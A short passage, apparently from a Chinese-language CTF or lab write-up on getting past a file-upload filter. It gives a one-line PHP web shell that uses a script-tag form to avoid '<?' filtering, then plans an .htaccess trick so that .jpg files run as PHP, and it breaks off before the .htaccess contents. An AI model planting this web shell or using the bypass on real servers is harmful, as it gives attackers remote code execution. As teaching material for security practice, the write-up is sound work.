 ![在这里插入图片描述](assets/404b1c73e4444c2ba043a96f97c5fc81.png)

在后面尝试修改MIME以及文件头，都不能绕过
 猜测是对一句话木马的`<?`过滤，那么我们修改为js马

```
<script language="php">eval($_POST['shell']);</script>
```

发现可以上传，不过没有被解析成php

![在这里插入图片描述](assets/16220666e40b46baa3c6433a4a3c7d09.png)
 那么我们可以用`.htaccess`配置文件攻击，让jpg文件被解析成php
 首先创建`.htaccess文件`，写入
